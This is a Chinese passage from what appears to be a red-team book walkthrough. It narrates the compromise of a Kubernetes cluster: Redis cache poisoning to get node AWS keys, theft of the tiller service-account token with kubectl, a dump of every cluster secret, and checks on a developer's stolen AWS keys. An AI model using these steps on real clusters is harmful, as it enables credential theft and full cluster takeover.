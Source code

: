 看看我们正在获取的所有这些凭证和令牌！而且我们还没有完成，远远没有。看看，这只是一个恰巧运行着不安全 Redis 容器的 ads-rtb pod 的节点。还有 200 个类似的 pods 分布在 700 台机器上，都会受到相同的缓存污染技术的影响。

这种黑客攻击的公式很简单：定位这些 pods（使用`get pods`命令），连接到 Redis 容器，替换一些 VAST URL 为元数据 API，收集溢出到审计数据库的机器临时 AWS 密钥，将它们转换为 Kubernetes 令牌，然后获取由节点上运行的 pods 加载的秘密。

我们重复这一过程，检查每个节点，直到在输出中注意到一些非常有趣的东西：

```
shell> **./kubectl get pods -o="custom-columns=\**
**NS:.metadata.namespace,\**
**POD:.metadata.name,\**
**ENV:.spec.containers[*].env[*].valueFrom.secretKeyRef,\**
**FILESECRET:.spec.volumes[*].secret.secretName" \**
**--all-namespaces \**
**--field-selector spec.nodeName=ip-192-168-133-34.eu-west-1.compute.internal**

NS              POD             ENV            FILESECRET
1 kube-system     tiller          <none>         tiller-token-3cea
prod            ads-rtb...      CassandraDB    default-token-99ed
```

我们碰上了幸运的节点编号 192.168.133.34 1，它表示托管了一些属于强大`kube-system`命名空间的 pods。这个 tiller pod 有 90%的可能性具有集群管理员权限。它在*helm* *v2*中扮演着核心角色，这是一个用于在 Kubernetes 上部署和管理应用的包管理器。我们伪装成这个节点并下载 tiller 的服务账户令牌：

```
root@Point1:~/# **aws eks update-kubeconfig --name prod-euw1 --profile node133**
`--snip--`
shell> **./kubectl get secret tiller-token-3cea \**
**-o json \**
**--kubeconfig ./kube/config_133_34 \**
**| jq -r .data.token**

ZXlKaGJHY2lPaUpTVXpJMU5pSXNJbXRwWkNJNklpSjkuZXlKcGMzTWlPaU...
```

拿到这个强大的账户后，我们可以用一个命令获取所有秘密。去他妈的节点授权！我们将账户令牌写入一个有效的 Kubectl 配置文件，命名为*tiller_config*，并用它来查询集群：

```
shell> **kubectl get secrets \**
**--all-namespaces \**
**-o json \**
**--kubeconfig ./kube/tiller_config**

"abtest_db_user": "abtest-user-rw",
"abtest_db_pass": "azg3Wk+swUFpNRW43Y0",
"api_token": "dfb87c2be386dc11648d1fbf5e9c57d5",
"ssh_metrics": "--- BEGIN SSH PRIVATE KEY --- ..."
"github-bot-ro": "9c13d31aaedc0cc351dd12cc45ffafbe89848020"
```

从中，我们获取了 100 多个凭证，涵盖了几乎所有的数据库：Cassandra、MySQL，等等。如果它与广告投放相关，放心，我们有办法访问它。我们甚至恢复了一些 SSH 私钥。我们还不知道如何使用它们，但这应该不需要我们太久就能弄明白。

我们还获得了几把有效的 AWS 访问密钥，其中一把属于名为 Kevin Duncan 的开发人员。这将非常有用。我们将其添加到我们的*凭证*文件中，并执行一次 API 调用以确认它们确实有效：

```
root@Point1:~/# **vi ~/.aws/credentials**
[kevin]
aws_access_key_id = AKIA44ZRK6WSSKDSKQDZ
aws_secret_access_key = 93pLDv0FlQXnpy+EplZsWmW/5r/+B/+KJ

root@Point1:~/# **aws iam get-user --profile kevin**
 "User": {
    "Path": "/",
    "UserName": "kevin.duncan",
    "Arn": "arn:aws:iam::886371554408:user/kevin.duncan",
```
